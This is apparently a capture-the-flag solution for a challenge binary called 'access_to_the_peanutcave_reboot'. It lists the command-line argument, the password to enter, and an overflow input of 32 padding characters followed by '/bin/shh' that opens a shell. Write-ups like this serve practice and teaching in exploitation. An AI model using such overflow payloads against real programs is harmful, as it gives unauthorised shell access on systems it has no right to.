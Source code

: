 # Solution of the access to the peanutcave

- run the binary (located in /home/user/) with "4660" as argument:
./access_to_the_peanutcave_reboot 4660

- when the password is asked, write "4220229742":
4220229742

- a new input will be asked, enter a padding of 32 characters followed by "/bin/shh" to pop a shell:
aaaaaaaaaazzzzzzzzzzeeeeeeeeeerr/bin/shh
